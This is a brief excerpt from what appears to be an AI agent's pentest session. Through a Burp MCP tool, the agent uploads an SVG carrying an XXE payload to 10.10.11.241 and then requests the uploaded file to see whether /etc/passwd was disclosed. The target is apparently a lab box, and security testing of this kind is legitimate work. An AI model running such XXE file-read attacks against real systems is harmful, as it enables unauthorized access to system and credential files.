 
**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 302 Found
Date: Wed, 07 May 2025 23:40:38 GMT
Server: Apache/2.4.55 (Ubuntu)
Location: /success.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8


<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:40:40 PM (America/New_York, UTC-4:00)

# Context Window Usage
42,684 / 200K tokens used (21%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
The XXE payload upload was successful. Let's try to access the uploaded SVG file to see if the XXE attack worked and if we can see the contents of /etc/passwd:
</thinking>

The XXE payload upload was successful. Let's access the uploaded SVG file to see if the XXE attack worked and if we can see the contents of /etc/passwd.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "GET /uploads/xxe.svg HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nConnection: close\r\n\r\n",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---